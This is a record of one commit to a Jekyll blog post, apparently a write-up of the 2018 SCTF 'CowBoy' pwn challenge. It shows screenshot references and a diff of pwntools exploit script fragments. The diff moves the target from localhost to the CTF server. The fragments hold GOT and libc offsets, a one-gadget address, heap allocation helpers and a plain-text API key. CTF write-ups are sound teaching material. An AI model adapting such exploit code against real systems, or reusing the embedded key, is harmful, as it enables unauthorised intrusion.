

Before and after one commit to UnKN0wnName/stfwlg.github.io, a Jekyll site: the page built from _posts/2018-07-09-[2018_sctf]_CowBoy_풀이.md, in a window 1280 px wide and 1400 px high, scrolled down 7238 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2018-07-09-[2018_sctf]_CowBoy_풀이.md
+++ b/_posts/2018-07-09-[2018_sctf]_CowBoy_풀이.md
@@ -82,8 +82,6 @@ HOST = "localhost"
 PORT = 4444
 #PORT = 14697
 
-############################################
-
 s = remote(HOST, PORT)
 a = {
     "apikey" : "5b88ada575f654923442e90a4d3e6bef7ba03ce02a3bc0dec0a0fbbe17d8445f"
@@ -96,12 +94,8 @@ libc = ELF("/home/rotles98/libc.so.6")
 #libc = ELF("./CowBoy_libc")
 pause()
 
-############################################
-
 rand_got = elf.got["rand"]
 rand_off = libc.symbols["rand"]
-
-############################################
 
 def func_alloc(size):
 	s.sendline("1")
@@ -180,12 +174,10 @@ import json
 from pwn import *
 #context.log_level = "debug"
 
-HOST = "localhost"
-#HOST = "cowboy.eatpwnnosleep.com"
-PORT = 4444
-#PORT = 14697
-
-############################################
+#HOST = "localhost"
+HOST = "cowboy.eatpwnnosleep.com"
+#PORT = 4444
+PORT = 14697
 
 s = remote(HOST, PORT)
 a = {
@@ -198,15 +190,11 @@ elf = ELF("./CowBoy")
 libc = ELF("./CowBoy_libc")
 pause()
 
-############################################
-
 rand_got = elf.got["rand"]
 exit_got_pointer = 0x400708
 
 rand_off = libc.symbols["rand"]
 one_off = 0x4526a
-
-############################################
 
 def func_alloc(size):
 	s.sendline("1")
```
